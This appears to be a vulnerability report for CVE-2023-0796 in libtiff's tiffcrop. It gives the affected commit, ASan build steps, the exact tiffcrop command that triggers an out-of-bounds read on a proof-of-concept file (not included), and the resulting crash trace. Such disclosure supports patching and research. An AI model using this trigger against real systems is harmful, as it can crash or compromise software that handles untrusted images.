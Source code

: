 # CVE-2023-0796

## POC URL
- https://gitlab.com/libtiff/libtiff/-/issues/499

## Version
LIBTIFF, Version master (post 4.4.0), commit id 1bdbd03f (Tue Nov 29 17:02:09 2022 +0000)

## Steps to reproduce

```CFLAGS="-g -fsanitize=address -fno-omit-frame-pointer" CXXFLAGS="-g -fsanitize=address -fno-omit-frame-pointer" ./configure --prefix=$PWD/build_asan --disable-shared```

```make -j; make install; make clean```

```$ ./build_asan/bin/tiffcrop -e multiple  -z 1,1,2048,2048:1,2049,2048,4097 -R 270   -i  poc /tmp/foo```

## Result

TIFFReadDirectory: Warning, Incorrect count for "ColorMap"; tag ignored.
TIFFFetchStripThing: Warning, Incorrect count for "StripOffsets"; tag ignored.
TIFFFetchStripThing: Warning, Incorrect count for "StripByteCounts"; tag ignored.
ZIPDecode: Decoding error at scanline 0.
: Strip 1: read -1 bytes, strip size 1536.
TIFFFillStrip: Invalid strip byte count 0, strip 1.
: Strip 2: read -1 bytes, strip size 1536.
TIFFFillStrip: Invalid strip byte count 0, strip 2.
: Strip 3: read -1 bytes, strip size 1536.
TIFFFillStrip: Invalid strip byte count 0, strip 3.
: Strip 4: read -1 bytes, strip size 1536.
TIFFFillStrip: Invalid strip byte count 0, strip 4.
: Strip 5: read -1 bytes, strip size 1536.
TIFFFillStrip: Invalid strip byte count 0, strip 5.
: Strip 6: read -1 bytes, strip size 1536.
TIFFFillStrip: Invalid strip byte count 0, strip 6.
AddressSanitizer:DEADLYSIGNAL
=================================================================
==145317==ERROR: AddressSanitizer: SEGV on unknown address 0x626000012382 (pc 0x560e87aeada4 bp 0x7ffe0adb85d0 sp 0x7ffe0adb8560 T0)
==145317==The signal is caused by a READ memory access.
    #0 0x560e87aeada3 in extractContigSamplesShifted24bits /root/programs_latest/libtiff/tools/tiffcrop.c:3592
    #1 0x560e87b00bb8 in extractSeparateRegion /root/programs_latest/libtiff/tools/tiffcrop.c:6954
    #2 0x560e87b04a94 in processCropSelections /root/programs_latest/libtiff/tools/tiffcrop.c:7835
    #3 0x560e87ae6bb1 in main /root/programs_latest/libtiff/tools/tiffcrop.c:2511
    #4 0x7fcc3b5b4082 in __libc_start_main ../csu/libc-start.c:308
    #5 0x560e87add60d in _start (/root/programs_latest/libtiff/build_asan/bin/tiffcrop+0x2e60d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/programs_latest/libtiff/tools/tiffcrop.c:3592 in extractContigSamplesShifted24bits
==145317==ABORTING


## Platform

uname -a
Linux dd189b3c7b86 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux